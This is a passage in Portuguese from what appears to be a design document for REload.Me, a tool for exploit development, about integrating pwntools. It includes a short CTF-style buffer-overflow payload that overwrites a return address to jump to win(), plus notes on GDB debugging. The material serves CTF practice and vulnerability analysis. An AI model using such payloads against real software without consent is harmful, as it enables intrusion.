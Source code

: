         # Monta o payload
        payload = flat([
            b'A' * offset, # Padding
            win_addr       # Endereço de retorno para win()
        ])

        # Inicia o processo (localmente para teste)
        # No REload.Me, isso poderia ser gerenciado pela UI/ExploitSession
        # p = process(elf.path) 
        
        # REload.Me fornece uma interface para iniciar e interagir
        session = REloadMe.ExploitSession(elf.path) # Exemplo de abstração

        # Envia o payload
        session.sendline(payload)

        # Obtém o output (ex: flag)
        # print(session.recvall()) # Ou REload.Me mostra o output na UI
        
        session.interactive() # Ou REload.Me oferece um botão para modo interativo
        ```
3.  **Interação e Debugging:**
    *   Bruno executa este script dentro do ambiente do REload.Me.
    *   Se não funcionar, ele pode usar um botão "Anexar GDB". REload.Me executa `gdb.attach(session.io, gdbscript="break *main+10\ncontinue")` (ou um script GDB mais relevante).
    *   Uma visualização simplificada do GDB (ou output do console GDB) é mostrada, permitindo a Bruno depurar o exploit.

### 5. Conclusão

A integração do `pwntools` enriquecerá significativamente as capacidades de desenvolvimento de exploits do REload.Me. A estratégia deve focar em:
*   Usar `pwntools` internamente para robustez e funcionalidade.
*   Fornecer abstrações convenientes para usuários intermediários.
*   Permitir o uso direto e completo do `pwntools` para usuários avançados.
*   Integrar suas capacidades de debugging com GDB de forma acessível.

Isso tornará o REload.Me uma ferramenta mais prática e poderosa para CTFs e análise de vulnerabilidades.
